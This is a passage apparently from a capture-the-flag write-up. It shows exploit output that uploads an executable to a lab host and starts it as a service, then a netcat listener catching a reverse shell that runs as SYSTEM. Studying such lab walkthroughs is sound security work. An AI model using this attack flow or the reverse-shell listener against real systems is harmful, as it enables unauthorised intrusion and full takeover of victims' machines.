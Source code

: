 ```
Sending file BI8O95.exe...
Opening SVCManager on 10.10.10.40.....
Creating service mIfk.....
Starting service mIfk.....
The NETBIOS connection with the remote host timed out.
Removing service mIfk.....
ServiceExec Error on: 10.10.10.40
nca_s_proto_error
Done

```

At the line sixth from the end, where it says “Starting Service”, I get a connection at `nc`:

```

oxdf@parrot$ rlwrap nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.40] 49162
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
nt authority\system

```